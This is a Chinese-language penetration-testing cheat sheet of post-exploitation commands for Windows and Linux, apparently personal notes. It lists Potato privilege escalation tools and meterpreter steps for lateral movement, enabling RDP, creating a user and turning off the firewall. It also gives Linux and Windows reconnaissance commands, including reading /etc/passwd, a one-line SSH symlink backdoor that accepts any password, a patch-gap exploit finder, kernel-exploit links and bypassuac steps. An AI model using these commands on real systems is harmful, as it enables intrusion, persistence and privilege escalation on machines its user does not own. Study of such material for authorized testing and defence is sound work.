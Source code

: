 #  信息收集
## windows

```shell
## 提权
JuicyPotato
SweetPotato
echo 其他漏洞见 z02
## 横向
meter> upload /root/fscan64.exe # 1.ipconfig 查看网段, # 2.arp -a # 2.1 route print # 3. fscan扫描 横向移动
meterpreter > run post/windows/manage/enable_rdp # 开 rdp
meterpreter > run getgui -e                      # 开启远程桌面
meterpreter > run getgui -u xiaowei -p 123456    # 创建用户
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1                              # 开启3389远程桌面
netsh advfirewall set allprofiles state off 
netsh advfirewall firewall set rule group="Remote Desktop" new enable=yes                                 # M2: 放行3389
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow # M1: 放行3389

# 远程桌面
proxychains rdesktop 192.168.52.141
rdesktop -u yourname -p password -g 1024x720 192.168.0.2
remmina # 可配代理 见 90_tools.md

net config Workstation # (当前计算机名，全名，用户名，系统版本，工作站域，登陆域)
net localgroup administrators
net view # 查看局域网内所有计算机
使用CS扩展的Ladon插件探测内网存活主机情况
Ladon 192.168.52.0/24 OnlinePC
net view /domain 查看域情况
CS和msf联动
```


## linux 
[Linux内网渗透基础篇](https://mp.weixin.qq.com/s/MV4bTIW7YKiBgS6r03_FFw)
```shell
get_info_01_linux.sh
meterpreter > getSystem "whoami"

uname -a    # 获取所有版本信息
uname -m    # 获取Linux内核架构
cat /proc/version    # 获取内核信息 
cat /etc/*-release   # 发布信息
cat /etc/issue    # 发布信息
hostname    # 获取主机名
cat /etc/passwd    # 列出系统所有用户 
cat /etc/group    # 列出系统所有组 
w    # 查看目前登录的用户
whoami    # 查看当前用户 
id    # 查看当前用户信息 
sudo -l    # 列出目前用户可执行与无法执行的指令 
ps aux    # 查看进程信息 
ls -la /etc/cron*    # 查看计划任务
ls -la /tmp
ifconfig -a    # 列出网络接口信息 
cat /etc/network/interfaces    # 列出网络接口信息 
arp -a    # 查看系统arp表 
route    # 打印路由信息
netstat -anplt    # 打印本地端口开放信息 
iptables -L    # 列出iptable的配置规则
```

wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:“KBxxxxxx”
### 权限维持

ssh软连接后门 需root执行后门命令，任意密码登录
```shell
ln -sf /usr/sbin/sshd /usr/local/su;/usr/local/su -oport=12345
```

# 04自动信息收集
Host Information Gathering Script：HIGS.bat
https://github.com/myh0st/scripts/blob/master/Windows%E4%B8%8B%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86/HIGS.bat
privilege-escalation-awesome-scripts：winPEAS.bat
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat

# 提权工具脚本

https://blog.csdn.net/weixin_43873557/article/details/113760973

快速查找exp

systeminfo>micropoor.txt&(for %i in (   KB2160329 KB2503665 KB2592799 KB2707511 KB2829361 KB2850851 KB3000061 KB3045171 KB3077657 KB3079904 KB3134228 KB3143141 KB3141780 ) do @type micropoor.txt|@find /i "%i"|| @echo %i you can fuck)&del /f /q /a  micropoor.txt

https://github.com/SecWiki/windows-kernel-exploits
https://github.com/WindowsExploits/Exploits

## ssh 相关
1.密钥篡改 authorized_keys 
2.重装覆盖 openssh-backdoor https://github.com/Psmths/openssh-backdoor

### bypassuac

```bash
search bypassuac
use exploit/windows/local/bypassuac
options
set session 1
run -j
getuid
getsystem
```
